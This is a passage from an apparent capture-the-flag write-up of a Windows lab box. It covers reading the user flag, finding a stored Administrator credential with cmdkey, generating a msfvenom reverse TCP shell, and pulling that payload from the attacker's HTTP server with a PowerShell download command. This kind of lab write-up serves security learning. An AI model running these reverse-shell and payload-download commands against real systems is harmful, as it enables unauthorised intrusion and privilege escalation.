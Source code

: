 Let's snag that `user.txt` flag.

```bash
C:\Users\security> cd Desktop
C:\Users\security\Desktop> more user.txt
ff1f3b48913b213a31ff6756********
C:\Users\security\Desktop>
```

User flag get!

### Privilege Escalation to Root

#### Enumeration - cmdkey & runas

Time to do some serious enumeration. If you are new at windows, I recommend going through
this list for [the basics of windows enumeration](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/).

After running down that list for a while, we get a bite in the `Credential Manager`. This can be seen running the following:

```bash
C:\Users\security\Desktop> cmdkey /list
Currently stored credentials:
Target: Domain:interactive=ACCESS\Administrator
Type: Domain Password
User: ACCESS\Administrator
C:\Users\security\Desktop>
```

With this, we can use `runas` with the `/savecred` flag, letting the system authenticate for us. That’s
great, but we can’t do a whole lot through this laggy telnet instance. Let’s throw a shell on this
puppy, shall we?

#### Reverse Shell

Back in Kali, we can fire up `msfvenom` and generate a payload using the following. Make sure to use your machines local IP address and a port of your choosing.

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=<Your IP> LPORT=<Your Port> -f exe > shell.exe
```

Time to transfer this shell onto the box. We spool up a `SimpleHTTPServer` in `python` by using the
below command in the shell’s directory.

```bash
python -m SimpleHTTPServer 80
```

Then, back over in our `telnet` session, we can download the reverse tcp shell.

```bash
C:\Users\security\Desktop> powershell.exe(new-object System.Net.WebClient).DownloadFile(’http://<Your IP>/shell.exe’,’C:\Users\security\Desktop\shell.exe’)
```
